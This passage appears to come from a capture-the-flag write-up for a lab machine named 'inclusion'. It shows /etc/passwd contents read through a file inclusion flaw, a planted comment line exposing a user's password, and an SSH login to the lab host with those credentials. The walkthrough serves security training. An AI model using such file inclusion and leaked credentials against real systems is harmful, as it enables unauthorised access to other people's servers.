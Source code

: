 _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
 
 
       
 
    </body>
 
</html>
'''
Yea! we got a file outside the website folder
now we can see the /etc/passwd file and inside it there's a strangely user with a hash (comment) sign "#falconfeast:rootpassword"
lets try ssh...
 
# ssh falconfeast@10.10.120.193
'''
The authenticity of host '10.10.120.193 (10.10.120.193)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.120.193' (ECDSA) to the list of known hosts.
falconfeast@10.10.120.193's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)
 
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
 
  System information as of Sat May 16 13:47:44 IST 2020
 
  System load:  0.08              Processes:           84
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 64%               IP address for eth0: 10.10.120.193
  Swap usage:   0%
 
 
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
 
3 packages can be updated.
3 updates are security updates.
 
 
Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$
'''
 